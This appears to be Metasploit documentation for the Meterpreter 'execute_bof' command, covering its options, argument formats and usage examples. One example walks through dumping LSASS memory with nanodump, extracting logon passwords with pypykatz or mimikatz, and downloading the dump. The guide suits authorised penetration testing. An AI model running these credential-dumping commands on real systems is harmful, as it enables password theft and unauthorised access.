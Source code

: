 This guide outlines how to use the Meterpreter `execute_bof` command as provided by the `bofloader` extension. It allows
a Meterpreter session to execute "Beacon Object Files" or BOF files for short. A BOF is a
[Common Object File Format][1] (COFF) executable file with an API of standard functions defined in [beacon.h][2].

The `bofloader` extension is only available for the Windows native Meterpreter, i.e. it is unavailable in the Java
Meterpreter even when running on the Windows platform.

# Execution Environment
**Warning:** The execution environment is shared with the Meterpreter process. If there is an exception or the BOF
crashes, the Meterpreter session will die. It is suggested that users invoke this functionality through a dedicated
session to avoid losing access altogether.

The loader and execution environment are provided by [trustedsec/COFFLoader][3]. The extension is therefor subject to
the same limitations.

The following functions are unavailable:

* `BeaconDataPtr`
* `BeaconUseToken`<sup>1</sup>
* `BeaconRevertToken`<sup>1</sup>
* `BeaconIsAdmin`
* `BeaconInjectProcess`
* `BeaconInjectTemporaryProcess`

<sup>1</sup> The token functions are defined and present, but will only effect the execution of the BOF and not the
Meterpreter runtime environment.

Currently, there is only one output stream. All output data processed by `BeaconOutput` and `BeaconPrintf` is combined
into that stream. BOFs should not use this for outputting binary data.

# Usage
The `bofloader` extension provides exactly one command, through which all of the provided functionality is accessed.

`execute_bof </path/to/bof_file> [Options] -- [BOF Arguments]`

* `-c` / `--compile` -- Compile the input file (requires mingw).
* `-e` / `--entry` -- The entry point (default: `go`).
* `-f` / `--format-string` -- Argument format-string. See details below.

## Compile
The compile option will use a local mingw instance to compile the input file into a COFF file for execution. The
standard [beacon.h][2] file will be in the include path automatically. In this case, the input file is treated as a C
source file instead of compiled data.

## Entry Point
Once loaded the loader will call the BOF entry point. By default, this value is `go`. The entry point option can change
it to another valid function to call instead.

## Argument Format-String
The `execute_bof` command is capable of serializing arguments to be sent to the BOF for execution. The user must define
the data type of each argument that the BOF file expecting to see. This information would come from either reading the
BOF's documentation or source code. **Incorrectly specifying the arguments or omitting them entirely can result in the
BOF crashing and the Meterpreter session dying.**

BOF argument types are defined in the format string argument with `-f` / `--format-string`.

The following table describes each of the types.

| Type    | Description                                                     | Unpack With (C)               |
| --------|-----------------------------------------------------------------|-------------------------------|
| b       | binary data (e.g. 01020304, file:/path/to/file.bin)<sup>1</sup> | BeaconDataExtract             |
| i       | 32-bit integer (e.g. 0x1234, 5678)<sup>2</sup>                  | BeaconDataInt                 |
| s       | 16-bit integer (e.g. 0x1234, 5678)<sup>2</sup>                  | BeaconDataShort               |
| z       | null-terminated utf-8 string                                    | BeaconDataExtract             |
| Z       | null-terminated utf-16 string                                   | (wchar_t *)BeaconDataExtract  |

<sup>1</sup> Binary data arguments are specified as either a stream of hex characters or as the path to a file local to
the Metasploit Framework instance. In the case of a file path, it must be prefixed with `file:`.

<sup>2</sup> Integer arguments are specified as either decimal or hexadecimal literals.

Unknown arguments are treated as BOF arguments. Additionally, any arguments after the `--` terminator are explicitly
treated as BOF arguments. Using the terminator allows ambiguous arguments to such as `--help` to be forward to the BOF
instead of being processed locally. The number of BOF arguments to be forward must equal number of characters in the
argument format string.

# Usage Examples
Executing [dir][4], passing the path argument and number of sub-directories to list.

```msf
meterpreter > execute_bof CS-Situational-Awareness-BOF/SA/dir/dir.x64.o --format-string Zs C:\\ 0
Contents of C:\*:
	08/05/2022 15:17           <dir> $Recycle.Bin
	08/05/2022 15:16      <junction> Documents and Settings
	09/22/2022 08:35      1342177280 pagefile.sys
	08/05/2022 16:48           <dir> PerfLogs
	09/08/2022 12:51           <dir> Program Files
	09/15/2018 05:06           <dir> Program Files (x86)
	08/05/2022 15:26           <dir> ProgramData
	09/07/2022 10:24           <dir> Python27
	08/05/2022 15:16           <dir> Recovery
	08/05/2022 15:40           <dir> System Volume Information
	08/05/2022 15:16           <dir> Users
	09/01/2022 13:49           <dir> Windows
	                      1342177280 Total File Size for 1 File(s)
	                                                     11 Dir(s)

meterpreter > 
```

Executing [nanodump][5]. First the PID of LSASS is found, then the argument string is constructed. The output must be
written to disk. Once completed, the dump file can be downloaded from the remote host.

```msf
meterpreter > ps lsass
Filtering on 'lsass'

Process List
============

 PID  PPID  Name       Arch  Session  User                 Path
 ---  ----  ----       ----  -------  ----                 ----
 712  556   lsass.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\lsass.exe

meterpreter > execute_bof nanodump.x64.o --format-string iziiiiiiiiziiiz 712 nanodump.dmp 1 1 0 0 0 0 0 0 "" 0 0 0 ""
Done, to download the dump run:
download nanodump.dmp
to get the secretz run:
python3 -m pypykatz lsa minidump nanodump.dmp
mimikatz.exe "sekurlsa::minidump nanodump.dmp" "sekurlsa::logonPasswords full" exit
meterpreter > download nanodump.dmp 
[*] Downloading: nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 1.00 MiB of 11.56 MiB (8.65%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 2.00 MiB of 11.56 MiB (17.31%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 3.00 MiB of 11.56 MiB (25.96%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 4.00 MiB of 11.56 MiB (34.62%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 5.00 MiB of 11.56 MiB (43.27%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 6.00 MiB of 11.56 MiB (51.92%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 7.00 MiB of 11.56 MiB (60.58%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 8.00 MiB of 11.56 MiB (69.23%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 9.00 MiB of 11.56 MiB (77.89%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 10.00 MiB of 11.56 MiB (86.54%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 11.00 MiB of 11.56 MiB (95.2%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 11.56 MiB of 11.56 MiB (100.0%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] download   : nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
meterpreter > 
```

# References

* [hstechdocs.helpsystems.com/manuals/cobaltstrike][6] for Cobalt Strike's BOF documentation
* [beacon.h][2] source code for the BOF API
* [TrustedSec/COFFLoader][3] for the source code of the loader
* [trustedsec/CS-Situational-Awareness-BOFF][7] for a collection of useful BOFs

[1]: https://en.wikipedia.org/wiki/COFF
[2]: https://github.com/Cobalt-Strike/bof_template/blob/4a5009fc4adeb35bb1b1887da478280f12f9693a/beacon.h
[3]: https://github.com/TrustedSec/COFFLoader
[4]: https://github.com/trustedsec/CS-Situational-Awareness-BOF/tree/master/src/SA/dir
[5]: https://github.com/helpsystems/nanodump
[6]: https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_main.htm
[7]: https://github.com/trustedsec/CS-Situational-Awareness-BOF
